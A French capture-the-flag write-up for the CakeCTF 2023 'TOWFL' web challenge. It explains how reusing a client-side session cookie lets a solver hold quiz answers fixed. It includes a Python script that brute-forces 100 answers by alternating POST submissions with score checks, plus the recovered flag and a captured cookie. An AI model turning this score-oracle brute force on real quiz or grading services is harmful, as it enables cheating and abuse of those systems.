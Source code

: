 
## TAGS : #WEB 


# <u>étapes résumés : </u>
### 1️⃣Découverte site :
	-->réponses random plusieurs fois donc conclusion :
		les réponses sont générées aléatoirements
 
### 2️⃣Utilisation de Burp :
	-->découverte du cookie session( change à chaque génération du quiz )
	-->récup des requetes ( POST pour envoyer les réponses GET pour récup le score par rapport au score envoyé )
	--> Dans les deux requetes on touche pas le cookie ( pour rester dans la même session et donc garder les même réponses)

### 3️⃣Utilisation de Python
	-->Utilisation de requests ( pour les requêtes ) et json pour récup les données
	--> passage de requetes sur burp à python = merci google
	--> bruteforce ( ligne/index/valeurs )
	--> remplissage de la variable data (les 100 réponses)

### 4️⃣Utilisation de Burp
	--> On peut rajouter une requête en bas mais j'ai 
	oublié et flemme de relancer tout le bruteforce du coup
	--> Relance (manuellement) des deux requetes :
	--post(réponses)
	--get(score par rapport au réponses)

# 🟢<u>Réponse finale :</u>🟢

```
{
"data":{
"flag":"\"CakeCTF{b3_c4ut10us_1f_s3ss10n_1s_cl13nt_s1d3_0r_s3rv3r_s1d3}\"",
"score":100
},
"status":"ok"
}
```

```python
  
import requests

import json

#partie post

url_post = "http://towfl.2023.cakectf.com:8888/api/submit"

headers_post = {

"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36", "Content-Type": "application/json",

"Accept": "*/*",

"Origin": "http://towfl.2023.cakectf.com:8888",

"Referer": "http://towfl.2023.cakectf.com:8888/",

"Accept-Encoding": "gzip, deflate, br",

"Accept-Language": "en-US,en;q=0.9",

"Cookie": "session=.eJwFwYENgDAIBMBdmIBCpeA2_QKJMxh39-6lepJu6k7dtgJAJzBYwuVMlEI2a4PdxqW6ok2r4LO1eFtckmeK0_cDKsYU_Q.ZU9iCQ.vQSA_GK9NtKJ6vRquAoVIYP-ipc",

"Connection": "close"

}

  

""" ------------------------------------------------------------------------------------------------------------ """

  

#partie get

url_get = "http://towfl.2023.cakectf.com:8888/api/score"

headers_get = {

"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36",

"Accept": "*/*",

"Referer": "http://towfl.2023.cakectf.com:8888/",

"Accept-Encoding": "gzip, deflate, br",

"Accept-Language": "en-US,en;q=0.9",

"Cookie": "session=.eJwFwYENgDAIBMBdmIBCpeA2_QKJMxh39-6lepJu6k7dtgJAJzBYwuVMlEI2a4PdxqW6ok2r4LO1eFtckmeK0_cDKsYU_Q.ZU9iCQ.vQSA_GK9NtKJ6vRquAoVIYP-ipc",

"Connection": "keep-alive"

}

  

#Aide avec burp pour trouver tout le bordel ( headers parametres etc )

old_score = None

data = [[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None],

[None,None,None,None,None,None,None,None,None,None]]

  

#bruteforce ligne/index/valeurs (ordre des if)

for line in range(10):
	for index in range(10):
		found_answer = False
		for value in range(4):
			data[line][index] = value
			  
			# POST request
			print("post")
			response = requests.post(url_post, headers=headers_post, data=json.dumps(data))
			print(response.status_code)
			print(response.text)
			
			# GET request
			print("get avec value = ", value)
			response = requests.get(url_get, headers=headers_get)
			score = json.loads(response.text)['data']['score']
			if old_score is None:
				old_score = 0
			# Compare scores
			if score > old_score:
				print("Score+1 avec value = ", value)
				old_score = score
				data[line][index] = value
				print(data)
				found_answer = True
				break # sort de la boucle if
			print("-------------------------")
		if found_answer:
			continue # skip l'itération value ()
		print("-------------DONE 1 INDEX----------------------")
	print("-------------DONE 1 LINE----------------------")
```
